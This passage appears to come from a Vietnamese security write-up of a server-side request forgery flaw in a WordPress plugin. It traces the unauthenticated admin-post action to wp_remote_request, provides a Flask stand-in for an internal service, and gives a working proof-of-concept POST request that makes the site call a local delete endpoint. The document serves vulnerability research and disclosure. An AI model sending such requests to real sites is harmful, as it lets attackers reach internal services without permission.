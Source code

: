 `request()` thực hiện **build query** và gửi request bằng `wp_remote_request()` - hàm chính dẫn tới **SSRF**

### Flow

{{< mermaid >}}
graph TD
A["HTTP Request"] --> B["admin_post_nopriv_{action}"]
B --> C["$request->get('args.url') / $request->get('args.method')"]
C --> D["$client->{$requestMethod}('', $params)"]
D --> E["Client::__call() → request() → wp_remote_request() ← SSRF sink"]
E --> F["Response → callback → HTTP Response"]
{{< /mermaid >}}

## Exploit

### Local Server
Tạo local service đơn giản bằng python

```py
from flask import Flask, send_from_directory
import os

BASE_DIR = os.path.abspath(os.getcwd())
app = Flask(__name__)

@app.route('/metadata')
def metadata():
    return send_from_directory(BASE_DIR, 'metadata.json', as_attachment=True)

@app.route('/delete')
def delete():
    file_id = request.args.get('id')
    if not file_id:
        return "No id provided", 400
    print(f"delete it: {file_id}")
    return f"Delete it: {file_id}"

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8001, debug=True)
```

```json {title="metadata.json"}
{
  "content": "Internal service data"
}
```

### Proof of Concept (PoC)

Gửi POST request với URL trỏ đến local service:

```
POST /wp-admin/admin-post.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 
Accept: */*
Content-Type: application/x-www-form-urlencoded
Content-Length: 146
Connection: close

action=wpf-async-request-5198d2fbe51aebbce20ad69b9ada4d77993bbc77&args[url]=http://localhost:8001/delete?id=1&args[method]=GET&args[name]=Tokuda
```
